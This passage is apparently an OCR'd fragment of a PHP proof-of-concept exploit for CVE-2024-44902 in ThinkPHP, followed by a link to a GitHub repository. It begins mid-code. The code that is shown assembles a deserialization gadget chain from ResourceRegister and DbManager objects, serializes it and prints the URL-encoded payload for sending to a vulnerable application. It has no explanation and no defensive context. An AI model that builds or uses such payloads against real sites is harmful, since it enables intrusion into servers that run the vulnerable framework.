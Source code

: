 ```php
                    "username" => new Pivot()
                    ]
                ];
            }
        }
        
namespace think\route;
use think\DbManager;
class ResourceRegister {
    protected $registered;
    protected $resource;

    public function __construct() {
        $this->registered = false;
        $this->resource = new DbManager();
    }
}


$rr = new ResourceRegister();
$ser = serialize($rr);

echo(urlencode($ser));
```
:::

## 
- [https://github.com/fru1ts/CVE-2024-44902](https://github.com/fru1ts/CVE-2024-44902)